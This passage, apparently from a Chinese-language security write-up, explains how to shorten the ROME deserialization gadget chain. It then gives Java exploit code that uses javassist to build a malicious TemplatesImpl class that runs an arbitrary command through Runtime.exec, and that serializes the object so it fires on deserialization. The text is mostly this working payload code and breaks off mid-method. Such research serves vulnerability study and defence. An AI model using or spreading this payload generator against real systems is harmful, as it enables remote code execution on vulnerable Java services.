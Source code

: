 同时链子也可以缩小

`ObjectBean`的hashCode函数到`beanHashCode`

如果我们将`_obj`设置为`toStringBean`,就可以直接触发`toStringBean`的`toString`函数，不需要再次回到`ObjectBean`,这样也缩小了payload

![image-20221110173743075](img/image-20221110173743075.png)代码：长度只有`1712`

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Rome1 {
    private static byte[] getTemplatesImplEvilCode(String cmd) throws Exception{
        String body="Runtime.getRuntime().exec(\""+cmd+"\");";
        ClassPool pool=ClassPool.getDefault();
        CtClass ctClass=pool.makeClass("z3eyond");
        CtClass superClass=pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor=ctClass.makeClassInitializer();
        constructor.setBody(body);
        byte[] bytes=ctClass.toBytecode();
        return bytes;
    }
    private static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    private static  byte[] serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(obj);
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
```